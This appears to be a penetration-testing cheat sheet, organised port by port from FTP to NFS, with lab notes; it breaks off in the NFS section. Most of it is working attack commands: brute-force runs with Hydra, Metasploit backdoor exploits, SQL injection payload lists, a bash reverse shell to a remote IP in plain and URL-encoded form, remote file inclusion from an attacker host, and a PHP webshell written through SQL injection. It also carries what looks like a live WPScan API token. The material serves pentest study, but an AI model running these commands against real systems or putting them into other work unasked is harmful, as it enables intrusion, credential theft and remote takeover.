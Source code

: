 ## **🛡️ Network Protocols**

### Network protocols allow devices to communicate and exchange data over a network. Here’s an expanded explanation of some commonly used protocols in penetration testing:
---

<details>
<summary>1.📂 FTP (File Transfer Protocol) port 21 </summary>
 <br>   
- **Port:** 21 (TCP)
- **Function:** FTP is used for transferring files between a client and a server. FTP operates over two channels:
    - **Control channel** (for sending commands)
    - **Data channel** (for transferring the actual files).
- **Common Security Issues:**
    - **Anonymous login:** Some FTP servers are misconfigured to allow anonymous logins, providing unauthorized access to files.
    - **Clear-text credentials:** FTP sends usernames and passwords in clear text, making it vulnerable to sniffing attacks.

---

### **1.1. Penetration Testing on FTP**
FTP enumeration
```bash
ftp <IP>
#login if you have relevant creds or based on nmap scan find out whether this has an anonymous login or not, then login with Anonymous:password

put <file> #uploading file
get <file> #downloading file

#NSE
locate .nse | grep ftp
nmap -p21 --script=<name> <IP>

#bruteforce
hydra -L users.txt -P passwords.txt <IP> ftp #'-L' for usernames list, '-l' for username and vice versa

# Check for vulnerabilities associated with the identified version.
```
![image](https://github.com/user-attachments/assets/70094f78-e27a-446e-a97f-6eb39cff347c)

---
### **1.1.1. Anonymous Login**

When performing penetration testing, an attacker can attempt to log in using **anonymous credentials** if the FTP server allows it. Many misconfigured FTP servers allow anonymous access for easier file sharing, which is a security risk.

**Example FTP login attempt:**

```bash

ftp 192.168.188.131
Name: Anonymous
Password: Anonymous

```
![image](https://github.com/user-attachments/assets/00f9a1e5-3e22-4ad2-86cc-10d990b43574)


If the server allows anonymous login, you will be able to interact with the server and explore its contents.

---

### **1.1.2. Sniffing FTP Credentials (Clear-text Passwords)**

Because FTP doesn’t encrypt traffic, usernames and passwords are sent in clear text. An attacker can use sniffing tools to capture this data, which can be used to compromise the server.

- **Wireshark:** A tool that can capture network packets and allow an attacker to see the FTP credentials.

**How to sniff credentials:**

1. **Start an FTP session**:
    
    ```bash
    
    ftp 192.168.188.131
    
    ```
    
2. **Capture the traffic using Wireshark.**
3. **Follow the TCP stream** to see the credentials:
    - Look for packets containing the string `"PASS"` in Wireshark, which indicates the password being sent.

**Filter clear-text credentials:**

```
frame contains "PASS"
```
![image](https://github.com/user-attachments/assets/84ba48da-79ce-4da8-89d0-0158d5ee9db2)

---

### **1.1.3. FTP Brute-Force Attack (Hydra)**

**Hydra** is a popular tool for performing brute-force attacks against various services, including FTP. It can attempt multiple combinations of usernames and passwords to gain unauthorized access.

**Example of brute-forcing FTP login:**

```bash

hydra -L user -P pass 192.168.188.131 ftp
hydra -L wordlist.txt -P wordlist.txt 192.168.188.131 ftp
use: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <ip> ftp

```

- **L** specifies a file with usernames.
- **P** specifies a file with passwords.
- **ftp** is the target protocol.

The **wordlist** file contains a list of possible usernames or passwords to be tried. A strong wordlist (such as **rockyou.txt**) increases the chance of success.
![image](https://github.com/user-attachments/assets/eafa1572-24ac-4ef1-93bd-6734b79ad5e0)

---

### **1.1.4. FTP Remote Shell via Nmap Script**

You can also use **Nmap** to exploit specific vulnerabilities in FTP servers. The `ftp-vsftpd-backdoor.nse` script is designed to exploit a vulnerability in **vsFTPd 2.3.4**, which contains a backdoor.

**Example Nmap command to check for the backdoor:**

```bash

sudo nmap -p 21 192.168.188.131 -sV --script ftp-vsftpd-backdoor.nse

```

This will test if the FTP server is vulnerable to the **vsFTPd backdoor**. If the server is vulnerable, you may be able to execute commands remotely.
![image](https://github.com/user-attachments/assets/48113953-c487-4bfa-bf04-49b376c60901)

---

### **1.1.5. Exploiting FTP Vulnerabilities with Metasploit**

Metasploit is another powerful tool used for exploiting vulnerabilities in systems. If the FTP server is running a vulnerable version of vsFTPd (e.g., **vsFTPd 2.3.4**), Metasploit can be used to exploit it.

**Steps to exploit vsFTPd 2.3.4 with Metasploit:**

1. **Search for the exploit:**
    
    ```bash
    
    msfconsole
    search vsftpd 2.3.4
    
    ```
    
2. **Use the exploit:**
    
    ```bash
  
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 192.168.188.131
    exploit
    
    ```
    
3. **Interact with the remote shell:**
    
    ```bash
   
    python -c 'import pty; pty.spawn("/bin/bash")'
    
    ```
    

By exploiting this vulnerability, you can get access to the **root** account on the target machine.
![image](https://github.com/user-attachments/assets/2c266ec1-e757-4442-970e-cc713e589347)

</details> 

<details>
 
<summary>2.🔒 SSH (Secure Shell) port 22 </summary>
 <br>
**Secure Shell (SSH)** is a cryptographic network protocol designed for secure communication over an unsecured network. It is primarily used for remote login and command-line execution, replacing older, less secure protocols like Telnet and rlogin
https://www.ssh.com/academy/ssh/public-key-authentication

https://docs.github.com/en/authentication/connecting-to-github-with-ssh/about-ssh

## SSH enumeration


#Login

    ssh uname@IP #enter the password in the prompt

#id_rsa or id_ecdsa file
chmod 600 id_rsa/id_ecdsa
ssh uname@IP -i id_rsa/id_ecdsa #if it still asks for the password, crack it using John

**Enumerating SSH authentication method
The SSH authentication method can be enumerated by using the ssh-auth-methods script in nmap, the username can be given using the –script-args flag. The following command can be used to enumerate the authentication method used:

    nmap --script ssh-auth-methods --script-args="ssh.user=pentest" -p 22 <ip>
#cracking id_rsa or id_ecdsa

     ssh2john id_ecdsa(or)id_rsa > hash
     john --wordlist=/home/sathvik/Wordlists/rockyou.txt hash

bruteforce
Since the authentication is password based hence the service can be brute forced against a username and password dictionary using hydra to find the correct username and password. After creating a username dictionary as users.txt and password dictionary as pass.txt, the following command can be used:

    hydra -l uname -P passwords.txt <IP> ssh #'-L' for usernames list, '-l' for username and vice versa
    hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<ip>

**Nmap SSH brute-force script

    nmap --script ssh-brute -p 22 <ip>
# Check for vulnerabilities associated with the identified version.

Use full commands:
- `t rsa`: Specifies the RSA algorithm.
- `b 4096`: Specifies the key length (4096 bits is recommended).
- You can also use `b 2048` for a shorter key length.
- **Follow the prompts:**
- Enter the path to save the key (default is `~/.ssh/id_rsa`).
- Enter a passphrase for the private key (optional but recommended for security).
- You'll have a public key (`~/.ssh/id_rsa.pub`) and a private key (`~/.ssh/id_rsa`).

### Authentication using Metasploit

An alternate way to perform the above procedure could be done by using the Metasploit module. The exploit multi/ssh/sshexec can be used to authenticate into the SSH service. Here we are assuming that the attacker has compromised the username and password already. Following will be the commands inside the Metasploit:

    use exploit/multi/ssh/sshexec
    set rhosts 192.168.31.205
    set payload linux/x86/meterpreter/reverse_tcp
    set username pentest
    set password 123
    show targets
    set target 1
    exploit

###Key based authentication (Metasploit)

The above procedure can also be performed using the Metasploit framework. The auxiliary/scanner/ssh/ssh_login_pubkey can be used to authenticate via key.

Following options can be given as configurations to run the auxiliary/scanner:

    use auxiliary/scanner/ssh/ssh_login_pubkey
    set rhosts 192.168.31.205
    set key_path /root/Downloads/ssh/id_rsa
    set key_pass 123
    set username pentest
    exploit
**while performing the brute force using hydra, the updated port needs to be given. Hence, the new command will be:

    hydra -L users.txt -P pass.txt <ip> ssh -s 2222
<img width="749" height="232" alt="image" src="https://github.com/user-attachments/assets/1aeefe88-7835-4718-857f-1107a5bb211a" />


**2. Copy the Public Key to the Server:**

Use the ssh-copy-id command.

Code

```jsx
    ssh-copy-id -i ~/.ssh/id_rsa.pub user@server_ip_or_hostname
```

- Replace `user` with your username on the server.
- Replace `server_ip_or_hostname` with the server's IP address or hostname.
- **Alternatively, manually copy the public key:**
- Read the contents of `~/.ssh/id_rsa.pub`.
- SSH into the server.
- Create the directory `~/.ssh` if it doesn't exist.
- Create or edit the file `~/.ssh/authorized_keys`.
- Append the contents of your public key to the `authorized_keys` file.
- Change the permissions of `~/.ssh` to `700` and `authorized_keys` to `600`.

Code

```jsx
    mkdir -p ~/.ssh    chmod 700 ~/.ssh   
    touch ~/.ssh/authorized_keys    
    chmod 600 ~/.ssh/authorized_keys    
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

**3. Log in with the Private Key:**

- **Open your terminal**: on your local machine.
- Use the `ssh` command with the `i` option:
  ```jsx
  ssh -i ~/.ssh/id_rsa user@server_ip_or_hostname
  ssh -oHostKeyAlgorithms=+ssh-rsa TCM@10.10.81.58 -p22
  ```
  ![image](https://github.com/user-attachments/assets/bdb18c28-6296-4013-bd28-4d6edafd81e9)

**LAB**

🔍 1. Scan the Target with Nmap
You used Nmap to detect open ports, services, and versions on the target machine:

       nmap -sV -A -Pn -p22 192.168.188.131
![image](https://github.com/user-attachments/assets/0c302403-7c3a-43ba-8ae1-07e071f8290d)
identified OpenSSH 4.7p1

🌐 2. Search for Exploits
A quick Google search led to a publicly available exploit on GitHub.
![image](https://github.com/user-attachments/assets/5c3d0256-140d-496c-9a9d-659eee20cc72)

📥 3. Download the Exploit
You cloned the exploit repository using:

    git clone https://github.com/sec-jarial/OpenSSH_4.7p1-Exploit.git
    cd OpenSSH_4.7p1-Exploit

 
🐍 4. Fix Script Error: Bad Interpreter
When running the script:
 
    ./openssh_4.7p1.py                
    zsh: ./openssh_4.7p1.py: bad interpreter: /usr/bin/python3^M: no such file or directory

 ![image](https://github.com/user-attachments/assets/665777b1-d68e-4932-a420-ee61d5bd2a19)

✅ Fix: Convert Line Endings
The error indicates Windows-style line endings (CRLF). Fix it using:

    dos2unix openssh_4.7p1.py
Or, use a text editor (e.g., VS Code, Vim) to convert to LF.

🐍 5. Set the Correct Python Interpreter
Ensure the shebang (#!) at the top of the script points to your actual Python binary:

    #!/usr/bin/env python3
Replace the shebang accordingly.
Specify Correct Python Path: 

    #!/home/kali/path/to/venv/bin/python

![image](https://github.com/user-attachments/assets/19748c1f-cdd1-4297-88b6-e87a7104d17b)

▶️ 6. Run the Exploit
Now the script should execute without interpreter errors:

    ./openssh_4.7p1.py

![image](https://github.com/user-attachments/assets/e1e593d4-99f6-43cd-af6e-a231c1fcfb9d)

Result: Got the SSH shell

![image](https://github.com/user-attachments/assets/31ed8b76-ded9-427e-9850-9d19cf7f7ee7)


</details>
<details>
 <summary>3. SMTP (Simple Mail Transfer Protocol) port 25</summary>
 <br>
SMTP is used for sending and receiving emails. It can be exploited in cases of misconfiguration, such as **open relay** or **user enumeration**.

**Enumerating SMTP:**

```bash
nc -nv <IP> 25 #Version Detection
smtp-user-enum -M VRFY -U username.txt -t <IP> # -M means mode; it can be RCPT, VRFY, EXPN

#Sending email with valid credentials, the below is an example of Phishing mail attack
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap

```

This can be used to find valid email addresses on the target system.

**Exploiting Open Relay (sending emails):**

```bash

telnet <IP> 25
HELO attacker.com
MAIL FROM: attacker@attacker.com
RCPT TO: victim@victim.com
DATA
Subject: Test
This is a test email.
.

```
</details>

<details>
<summary>4. DNS (Domain Name System) port 53</summary>
 <br>
- Better use `Seclists` wordlists for better enumeration. https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

```
host www.megacorpone.com
host -t mx megacorpone.com
host -t txt megacorpone.com

for ip in $(cat list.txt); do host $ip.megacorpone.com; done #DNS Bruteforce
for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found" #bash bruteforcer to find domain name

## DNS Recon
dnsrecon -d megacorpone.com -t std #standard recon
dnsrecon -d megacorpone.com -D ~/list.txt -t brt #bruteforce, hence we provided list

# DNS Bruteforce using dnsenum
dnsenum megacorpone.com

## NSlookup, a gold mine
nslookup mail.megacorptwo.com
nslookup -type=TXT info.megacorptwo.com 192.168.50.151 #We are querying the information from a specific IP, here it is 192.168.50.151. This can be very useful
```
</details>

<details>
<summary>5. HTTP/S (Hypertext Transfer Protocol) port 80, 443</summary>
 <br>
- View the source code and identify any hidden content. If an image looks suspicious, download it and try to find hidden data in it.
- Identify the version or CMS and check for active exploits. This can be done using Nmap and Wappalyzer.
- check /robots.txt folder
- Look for the hostname and add the relevant one to `/etc/hosts` file.
- Directory and file discovery - Obtain any hidden files that may contain juicy information

```
dirbuster
gobuster dir -u http://example.com -w /path/to/wordlist.txt
python3 dirsearch.py -u http://example.com -w /path/to/wordlist.txt
```

- Vulnerability Scanning using nikto: `nikto -h <url>`
- `HTTPS`SSL certificate inspection, may reveal information like subdomains, usernames…etc
- Default credentials: Identify the CMS or service, check for default credentials, and test them out.
- Bruteforce

```
hydra -L users.txt -P password.txt <IP or domain> http-{post/get}-form "/path:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-post-form mode for https, post, or get, which can be obtained from Burpsuite. Also, capture the response for detailed information.

#Bruteforce can also be done by Burpsuite but it's slow, prefer Hydra!
```

- if `cgi-bin` is present, then do further fuzzing and obtain files like .sh or .pl
- Check if other services like FTP/SMB or any other that has upload privileges are getting reflected on the web.
- API - Fuzz further, and it can reveal some sensitive information

```
#identifying endpoints using gobuster
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern #pattern can be like {GOBUSTER}/v1 here v1 is just for example, it can be anything

#obtaining info using curl
curl -i http://192.168.50.16:5002/users/v1
```

- If there is any Input field check for **Remote Code execution** or **SQL Injection**
- Check the URL, whether we can leverage **Local or Remote File Inclusion**.
- Also check if there’s any file upload utility(also obtain the location it’s getting reflected)

**Wordpress**

```
# basic usage
wpscan --url "target" --verbose

# enumerate vulnerable plugins, users, vulnerable themes, timthumbs
wpscan --url "target" --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log

# Add Wpscan API to get the details of vulnerabilties.
wpscan --url http://alvida-eatery.org/ --api-token NjnoSGZkuWDve0fDjmmnUNb1ZnkRw6J2J1FvBsVLPkA

#Accessing Wordpress shell
http://10.10.67.245/retro/wp-admin/theme-editor.php?file=404.php&theme=90s-retro

http://10.10.67.245/retro/wp-content/themes/90s-retro/404.php
```

**Drupal**

```
droopescan scan drupal -u http://site
```

**Joomla**

```
droopescan scan joomla --url http://site
sudo python3 joomla-brute.py -u http://site/ -w passwords.txt -usr username #https://github.com/ajnik/joomla-bruteforce
```
### **Web Attacks**

💡 Cross-platform PHP revershell: [

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php))

**Directory Traversal**

```
cat /etc/passwd #displaying content through absolute path
cat ../../../etc/passwd #relative path

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

#In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
#check for id_rsa, id_ecdsa
#If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd

#For windows
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt #no need to provide drive
```

- URL Encoding

```
#Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

**Local File Inclusion**

- The main difference between Directory traversal and this attack is that we can execute commands remotely here.

```
#At first we need
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>"
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
```

- Remote file inclusion

```
1. Obtain a php shell
2. host a file server
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

**SQL Injection**

```
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

- Blind SQL Injection - This can be identified by Time-based SQLI

```
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

- Manual Code Execution

```
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from the web, then follow the below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id #Command execution
```

- SQLMap - Automated Code Execution

```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user #Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump #Dumping database

#OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" #/var/www/html/tmp is the writable folder on target, hence we're writing there

```
</details>

<details>
<summary>6. POP3 (Post Office Protocol Version 3) port 110</summary>
 <br>
**Post Office Protocol** \(**POP**\) is a type of computer networking and Internet standard **protocol** that extracts and retrieves email from a remote mail server for access by the host machine. **POP** is an application layer **protocol** in the OSI model that provides end users the ability to fetch and receive email \(from [here](https://www.techopedia.com/definition/5383/post-office-protocol-pop)\).

The POP clients generally connect, retrieve all messages, store them on the client system, and delete them from the server. There are 3 versions of POP, but POP3 is the most used one.

**Default ports:** 110, 995\(ssl\)

```text
PORT    STATE SERVICE
110/tcp open  pop3
```

## Enumeration

### Banner Grabbing

```bash
nc -nv <IP> 110
openssl s_client -connect <IP>:995 -crlf -quiet
```

## Manual

You can use the command `CAPA` to obtain the capabilities of the POP3 server.

## Automated

```bash
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port <PORT> <IP> #All are default scripts
```

The `pop3-ntlm-info` plugin will return some "**sensitive**" data \(Windows versions\).

### [POP3 bruteforce](../brute-force.md#pop)

## POP syntax

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

From [here](http://sunnyoasis.com/services/emailviatelnet.html)

Example:

```text
root@kali:~# telnet $ip 110
 +OK beta POP3 server (JAMES POP3 Server 2.3.2) ready 
 USER billydean    
 +OK
 PASS password
 +OK Welcome billydean

 list

 +OK 2 1807
 1 786
 2 1021

 retr 1

 +OK Message follows
 From: jamesbrown@motown.com
 Dear Billy Dean,

 Here is your login for remote desktop ... try not to forget it this time!
 username: billydean
 password: PA$$W0RD!Z
```

```

### Identifying Issues

- Clear-text authentication (no SSL/TLS).
- Weak credentials (try common usernames/passwords).
- Default or anonymous access.

### Exploiting

```bash

# Manual login attempt
telnet <IP> 110
USER <username>
PASS <password>

# Hydra brute force
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 110 -vV <IP> pop3

```

### References

- HackTricks - POP3
- POP3 RFC 1939
</details>



<details>
<summary>7.🔌 RPC (Remote Procedure Call) port 111 </summary>
 <br>
RPC allows a program on one computer to execute a procedure on another computer.

**Enumerating with RPCClient:**
**Connect to RPC server with an anonymous bind:**
```bash

$ rpcclient -U "" -N <target>
srvinfo
enumdomusers #Enumerate Domain Users
enumpriv #like "whoami /priv"
queryuser <user> #detailed user info
getuserdompwinfo <RID> #password policy, get user-RID from previous command
getdompwinfo #Get Domain Password Info
lookupnames <user> #SID of specified user
createdomuser <username> #Creating a user
deletedomuser <username>
enumdomains
enumdomgroups # Enumerate Domain Groups
querygroup <group-RID> #get rid from previous command
querydispinfo #description of all users
querygroupmem 0x200 #Query Group Membership
netshareenum #Share enumeration, this only comesup if the current user we're logged in has permissions
netshareenumall
lsaenumsid #SID of all users

```

This will provide information about the target system and its users.
![image](https://github.com/user-attachments/assets/1a5d498c-8a6d-4a91-b017-69b62a6cb5e2)

“RID are relative identifier to identify an object which will be in hexa decimal format”

![image](https://github.com/user-attachments/assets/d3e9af35-e0b2-4c72-b893-e7a24141b82a)

**Password Spray Attack**

The following script will iterate over usernames and passwords and try to execute "getusername". Watch out for "ACCOUNT_LOCKED" error messages.

```
TARGET=10.10.10.10;
while read username; do
  while read password; do
    echo -n "[*] user: $username" && rpcclient -U "$username%$password" -c "getusername;quit" $TARGET | grep -v "NT_STATUS_ACCESS_DENIED";
  done < /path/to/passwords.txt
done < /path/to/usernames.txt
```

If a password is found, use it with smbclient to explore the SYSVOL:

```
$ smbclient -U "username%password" \\\\<target>\\SYSVOL
Domain=[HOME] OS=[Windows Server 2008]
...
smb: \> ls
...
```
---
</details>

<details>
<summary>8.🗂️ SMB (Server Message Block) port 139,445</summary>
 <br>
SMB is a protocol used for file and printer sharing, as well as inter-process communication between computers.

**Example Nmap command to scan for SMB services:**

```bash

sudo nmap -p 445 -sV -sC 192.168.188.131
locate .nse | grep smb
nmap -p445 --script="name" $IP 

```
![image](https://github.com/user-attachments/assets/5f4b1ffc-baab-4de5-9c0f-dcb520401b1c)


**Enumerating SMB Shares:**

```bash
#In windows we can view like this
net view \\<computername/IP> /all

enum4linux -L -S 192.168.188.131
smbclient -L 192.168.188.131 -N
smbmap -H 192.168.188.131
#If you got user name and password:
smbmap -H 192.168.188.131 -u "msfadmin" -p "msfadmin" -r tmp -A '.*' -q

```

**Brute-forcing SMB credentials:**

```bash

hydra -l admin -P /home/kali/pass.txt smb://192.168.188.131
or
netexec smb 192.168.188.131 -u admin -p /home/kali/pass.txt --continue-on-success

```
![image](https://github.com/user-attachments/assets/c592d34d-613f-49b5-9a92-c3b8c951958a)
```bash
# Smbclient
smbclient -L //IP #or try with 4 /'s
smbclient //server/share
smbclient //server/share -U <username>
smbclient //server/share -U domain/username

#SMBmap
smbmap -H <target_ip>
smbmap -H <target_ip> -u <username> -p <password>
smbmap -H <target_ip> -u <username> -p <password> -d <domain>
smbmap -H <target_ip> -u <username> -p <password> -r <share_name>

#Within SMB session
put <file> #to upload file
get <file> #to download file
```
Downloading shares is easy—if the folder consists of several files, they will all be downloaded by this.
```bash
mask ""
recurse ON
prompt OFF
mget *
```
**Exploit SMB:**
Try to connect with no pass

```jsx
smbclient --no-pass //192.168.188.131/tmp
```

login as Anonymous:

![image](https://github.com/user-attachments/assets/1e13a6c6-3293-4bf3-a01e-bb3303698da0)


since we have smb access i tried:
```jsx
put rev.sh
posix 
chmod +x rev.sh
chown Anonymous rev.sh
open rev.sh
```
But didnt work:
Failed to open file /rev.sh. NT_STATUS_ACCESS_DENIED
![image](https://github.com/user-attachments/assets/4a71afb8-42f0-471e-bebb-bc7bc0a83107)

SMB Version Samba 3.0.20 found, search for exploits:
```bash
searchsploit samba 3.0.20  
locate multiple/remote/10095.txt
cat /usr/share/exploitdb/exploits/multiple/remote/10095.txt
```
![image](https://github.com/user-attachments/assets/6603e3bd-03ea-4424-8d4c-f3aac3acdd52)

</details>
<details>
<summary>9.📡 SNMP (Simple Network Management Protocol) port 25</summary>
 <br>

SNMP is used to manage and monitor network devices. It can be exploited if the community string is weak or known (like **public** or **private**).
![image](https://github.com/user-attachments/assets/c4d02453-3331-4739-bf58-f38aea7a6133)

**Example SNMP enumeration with `snmpcheck`:**

```bash

snmpcheck -c public -h 192.168.188.131
snmpcheck -t <IP> -c public #Better version than snmpwalk as it displays more user friendly

snmpwalk -c public -v1 -t 10 <IP> #Displays entire MIB tree, MIB Means Management Information Base
snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25 #Windows User enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2 #Windows Processes enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2 #Installed software enumeraion
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3 #Opened TCP Ports

#Windows MIB values
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports

```
if community string was public try to connect with snmpcheck
![image](https://github.com/user-attachments/assets/1eef5dc1-7a3e-40e9-9b37-ce2bfea237d9)

try to use snmp walk
![image](https://github.com/user-attachments/assets/3a136368-a50b-4fb4-a7dd-63d72ed69358)

**Brute-forcing SNMP community strings:**

```bash

onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 192.168.146.156
or
snmpwalk -v1 -c public 192.168.146.156 NET-SNMP-EXTEND-MIB :: nsExtendObjects

```
https://hacktricks.boitatech.com.br/pentesting/pentesting-snmp/snmp-rce

</details>

<details>
<summary>10.📚 LDAP (Lightweight Directory Access Protocol)389,636</summary>
 <br>
LDAP is a protocol used to access and maintain directory information. It is commonly used for managing user information and authentication.

**Enumerating LDAP:**

```bash

ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com"
ldapsearch -x -H ldap://<IP>:<port> # try on both ldap and ldaps, this is first command to run if you dont have any valid credentials.

ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
#CN name describes the info we're collecting
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"

#windapsearch.py
#for computers
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --computers

#for groups
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --groups

#for users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --da

#for privileged users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --privileged-users

```

You can also enumerate users and gather information from LDAP directories.

**Using Metasploit for LDAP enumeration:**

```bash

msfconsole
use auxiliary/gather/ldap_query
set RHOSTS <IP>
set BASE "dc=example,dc=com"
run

```

</details>
<details>
<summary>11.📦 NFS (Network File System) port 2049</summary>
 <br>
NFS allows a system to share its files with other systems over a network. It enables the mounting of remote file systems and interaction with them as if they were local.

**Example Nmap command to scan for NFS services:**

```bash

nmap -p2049 -sV 192.168.188.131

```

If NFS is exposed publicly, it can be mounted to the local machine and files can be accessed.

**Mounting NFS share:**

```bash

sudo mount 192.168.188.131:/ /home/kali/Downloads/nfs -nolock

```

This allows you to access shared files from the remote NFS server.
![image](https://github.com/user-attachments/assets/34ad4003-778a-4011-b5ee-1c63e17adf4a)

**Troubleshooting NFS Mount Permission Issues:**

If you encounter **Permission Denied**, ensure that you have the correct NFS version and permissions configured.
https://blog.christophetd.fr/write-up-vulnix/
**To use NFSv3 (if needed):**

```bash

sudo mount -t nfs -o vers=3 192.168.188.137:/home/vulnix /home/kali/Downloads/nfs/home/vulnix -nolock

```
Let’s take a closer look at the permissions. 
```bash
ls -ld vulnix
```
If only Particuler user or group have access to the Path:
create a user group:
```jsx
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --groups vulnix_group vulnix
sudo -u vulnix ls -l vulnix
```

![image](https://github.com/user-attachments/assets/c5978efc-c909-48b1-8165-5705d484ef0a)


DEBUG

```jsx
id vulnix
```

Ensure it outputs:

```jsx
